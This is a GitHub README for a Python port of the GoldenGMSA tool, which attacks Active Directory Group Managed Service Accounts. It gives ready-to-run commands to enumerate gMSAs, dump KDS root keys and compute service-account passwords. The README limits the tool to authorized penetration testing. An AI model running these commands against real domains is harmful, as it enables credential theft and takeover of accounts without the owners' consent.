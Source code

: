 # GoldenGMSA Python

Python implementation of the GoldenGMSA tool for exploiting Group Managed Service Accounts (gMSA) in Active Directory.

## Installation

```bash
# Clone the repository
git clone https://github.com/felixbillieres/goldenGMSA.git
cd goldenGMSA/golden_gmsa_python

# Create a virtual environment
python3 -m venv venv
source venv/bin/activate

# Install dependencies
pip install -r requirements.txt
```

## Usage

### Domain Authentication

```bash
# With authentication (recommended)
python main.py -u 'DOMAIN\username' -p 'password' --domain domain.local gmsainfo

# Or with UPN format
python main.py -u 'user@domain.local' -p 'password' --domain domain.local gmsainfo

# With domain controller IP
python main.py -u 'user@domain.local' -p 'password' --domain domain.local --dc-ip 192.168.1.10 gmsainfo

# With LDAPS (SSL)
python main.py -u 'user@domain.local' -p 'password' --domain domain.local --use-ssl gmsainfo
```

### Available Commands

```bash
# Enumerate all gMSAs in the domain
python main.py -u 'user@domain.local' -p 'password' --domain domain.local gmsainfo

# Query a specific gMSA by SID
python main.py -u 'user@domain.local' -p 'password' --domain domain.local gmsainfo --sid <SID_GMSA>

# Dump all KDS root keys
python main.py -u 'user@domain.local' -p 'password' --domain domain.local kdsinfo

# Calculate a gMSA password
python main.py -u 'user@domain.local' -p 'password' --domain domain.local compute --sid <SID_GMSA>

# Offline mode (no authentication, with exported keys)
python main.py compute --sid <SID_GMSA> --kdskey <BASE64_KEY> --pwdid <BASE64_PWDID>

# View all options
python main.py --help
```

### Supported Authentication Formats

- **UPN**: `user@domain.local`
- **NetBIOS**: `DOMAIN\username`
- **Simple**: `username` (domain will be added automatically)

## Disclaimer

This tool is intended **only for authorized penetration testing** and **security research**. Using this tool on systems without explicit permission is **illegal**.

## License

MIT License

## Author

**Félix Billières (Elliot Belt)**

## Credits

Based on research by Yuval Gordon ([@YuG0rd](https://twitter.com/YuG0rd)) - [Introducing the Golden GMSA Attack](https://www.semperis.com/blog/golden-gmsa-attack/)
